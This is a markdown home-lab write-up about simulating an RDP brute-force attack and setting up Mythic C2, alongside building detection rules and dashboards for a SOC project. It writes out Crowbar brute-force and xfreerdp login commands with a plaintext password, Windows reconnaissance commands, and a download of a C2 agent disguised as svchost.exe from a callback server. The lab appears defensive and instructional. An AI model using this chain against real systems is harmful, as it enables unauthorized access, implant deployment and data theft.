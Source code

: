 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

## Objectives
- Use Shodan and Censys to find servers with exposed RDP
- Create and configure detection rules
- Spin up an Ubuntu server for Mythic C2 and implement payloads

## Steps

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](link_to_your_image) <!-- Replace with actual image link -->
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](link_to_your_image) <!-- Replace with actual image link -->

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](link_to_your_image) <!-- Replace with actual image link -->
- Generated alerts similar to earlier SSH queries.
  ![Alert Generation](link_to_your_image) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](link_to_your_image) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](link_to_your_image) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment.
      ![Preconfigured Rules](link_to_your_image) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](link_to_your_image) <!-- Replace with actual image link -->

### 4. Data Visualization
- Created maps for new RDP data queries (following SSH attempt mapping steps).
  ![RDP Data Map](link_to_your_image) <!-- Replace with actual image link -->
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](link_to_your_image) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table](link_to_your_image) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](link_to_your_image) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](link_to_your_image) <!-- Replace with actual image link -->
- Verified Docker status before restarting the service.
  ![Docker Status](link_to_your_image) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
  ![Starting Mythic](link_to_your_image) <!-- Replace with actual image link -->

### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](link_to_your_image) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](link_to_your_image) <!-- Replace with actual image link -->

### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password.
  ![Target File Creation](link_to_your_image) <!-- Replace with actual image link -->
- Moved to Kali Linux's wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](link_to_your_image) <!-- Replace with actual image link -->

### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access.
  ![Wordlist Modification](link_to_your_image) <!-- Replace with actual image link -->
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](link_to_your_image) <!-- Replace with actual image link -->
- **Target File Setup**: 
    - Created `target.txt` containing the public IP and username:
      ```
      155.138.220.109 Administrator
      ```
  ![Target File Setup](link_to_your_image) <!-- Replace with actual image link -->

- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](link_to_your_image) <!-- Replace with actual image link -->

### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](link_to_your_image) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
  ![Command Execution](link_to_your_image) <!-- Replace with actual image link -->

### 12. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
  ![Mythic Agent Download](link_to_your_image) <!-- Replace with actual image link -->

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
  ![HTTP Profile Installation](link_to_your_image) <!-- Replace with actual image link -->

- Created payload:
    - Ensured it calls back to the C2 server's public IP.
    - Downloaded the payload using:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 13. Finalizing the Attack
- Allowed HTTP connection on firewall:
    ```bash
    ufw allow 80
    ```
  ![Allowing HTTP Connection](link_to_your_image) <!-- Replace with actual image link -->
- Ran the payload on the Windows server.
  ![Payload Execution](link_to_your_image) <!-- Replace with actual image link -->
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](link_to_your_image) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
